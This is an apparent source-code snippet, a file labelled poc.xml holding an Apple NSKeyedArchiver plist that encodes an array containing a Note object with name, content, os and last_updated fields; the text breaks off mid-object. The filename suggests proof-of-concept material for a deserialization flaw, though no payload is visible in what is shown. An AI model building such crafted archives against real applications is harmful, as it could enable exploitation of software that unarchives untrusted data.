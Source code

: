 ```xml
<!--poc.xml -->

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>$version</key>
    <integer>100000</integer>
    <key>$archiver</key>
    <string>NSKeyedArchiver</string>
    <key>$top</key>
    <dict>
        <key>root</key>
        <dict>
            <key>CF$UID</key>
            <integer>1</integer>
        </dict>
    </dict>
    <key>$objects</key>
    <array>
        <string>$null</string>
        <!-- NSArray -->
        <dict>
            <key>NS.objects</key>
            <array>
                <dict>
                    <key>CF$UID</key>
                    <integer>2</integer>
                </dict>
            </array>
            <key>$class</key>
            <dict>
                <key>CF$UID</key>
                <integer>8</integer>
            </dict>
        </dict>
        <!-- Note -->
        <dict>
            <key>last_updated</key>
            <dict>
                <key>CF$UID</key>
                <integer>5</integer>
            </dict>
            <key>content</key>
            <dict>
                <key>CF$UID</key>
                <integer>4</integer>
            </dict>
            <key>os</key>
            <dict>
                <key>CF$UID</key>
                <integer>6</integer>
            </dict>
            <key>name</key>
            <dict>
                <key>CF$UID</key>
                <integer>3</integer>
            </dict>
            <key>$class</key>
            <dict>
                <key>CF$UID</key>
                <integer>7</integer>
```
